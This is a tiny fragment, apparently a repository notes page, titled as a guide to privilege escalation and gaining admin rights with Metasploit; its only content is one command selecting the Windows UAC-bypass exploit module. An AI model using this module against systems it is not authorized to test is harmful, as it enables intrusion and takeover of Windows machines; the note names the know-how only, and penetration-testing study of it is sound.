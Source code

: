 #Previlage escalation and Gaining Admin Previlage using MSF


```Use exploit/windows/local/bypassuac```
